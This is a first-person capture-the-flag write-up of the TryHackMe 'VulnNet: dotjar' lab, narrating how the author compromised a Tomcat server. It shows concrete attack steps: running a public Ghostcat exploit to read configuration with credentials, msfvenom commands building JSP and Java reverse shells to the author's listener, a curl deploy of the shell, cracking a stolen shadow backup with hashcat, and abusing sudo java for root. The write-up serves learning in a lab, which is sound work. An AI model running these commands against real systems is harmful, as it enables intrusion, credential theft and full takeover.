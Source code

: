 # VulnNet: dotjar

https://tryhackme.com/room/vulnnetdotjar

Oof, this room took a lot longer than it should have, I think. I really struggled with the initial foothold (not helped by the room saying it should have been easy, haha).

Recon showed two ports, `8009` and `8080`. On `8080` was a tomcat instance, so I immediately though of the war deploy hack, but the manager interface was protected by basic auth. I ran through a bunch of default creds for this, tried hitting it with hydra and even metasploit's enum function (I usually avoid metasploit just because its too magic), but no dice.

`8009` is the 'ajp' port, sort of a different protocol way to access the admin interface. A few resources I'd read only mentioned it insofar as you can use it to access tomcat if `8080` is blocked, which wasn't much use. Hmm. I figured it being exposed though, as one of only *two* ports, must be important.

An hour or so of banging my head, and I did a bit more research before stumbling onto [Ghostcat](https://www.securityweek.com/apache-tomcat-affected-serious-ghostcat-vulnerability) - a vulnerability in ajp that provides somewhat restricted but still potentially devastating local file inclusion. To test this, I hit up exploit db and found this python 2 script: https://www.exploit-db.com/exploits/48143

Grabbing this and running it as is (`python2 ghostcat.py 10.10.104.169`) pulled out the `WEB-INF/web.xml` file, which contained the following text:

```xml
<description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    <redacted>:<redacted>

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
```

Great! I had creds... but these didn't work for the manager interface. They did work for the host-manager though, and thus went the next hour as I went down a dead end. Specifically, I tried following this guide: https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/, but couldn't get it to work. Turns out, it only works if a number of configurations have been made to, for example, allow tomcat to host from remote servers which didn't appear to be the case.

So I was stuck again... until I read the above more slowly. The GUI is disabled... but in my wanderings and enumeration of tomcats docs I found it had a ... text interface? basically a simplistic api. That is, /manager/html is the standard manager url, but */manager/text* performs basically the same purpose without a gui! Sure enough, by accessing /manager/text/list I got a list of deployed applications.

Ok, so back to using the standard war exploit, finally :)

- First I created a jsp-based reverse shell with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.108.144 LPORT=4444 -f raw -o revshell.jar`
- Then I uploaded this using curl: `curl -u <redacted> --upload-file revshell.war http://10.10.104.169:8080/manager/text/deploy?path=/revshell`
- Finally, by starting a nc listener and navigating to `http://10.10.104.169:8080/revshell`

This got me onto the machine as 'web'.

From here it was somewhat easy. I ran linpeas, and found a backup file under backups I could read, `shadow-backup-alt.gz`. Unzipping this got me a copy of shadow with the hashes for `web` and the other user, `jdk-admin`. I put these through hashcat with rockyou and `-m 1800` and quickly got the jdk-admin password. In their home directory was the user flag.

To get to root, sudo -l revealed I could run java as root, specifically `/usr/bin/java -jar *.jar`. Easy. I created another revshell, with a subtly different payload: `msfvenom -p java/shell_reverse_tcp LHOST=10.10.108.144 LPORT=4445 -f raw -o revshell2.jar`, brought this onto the machine via a web server and wget, started a new listener and then ran the sudo command to get a root shell. Easy :) Note that msfvenom, with a java payload will emit a jar format by default.
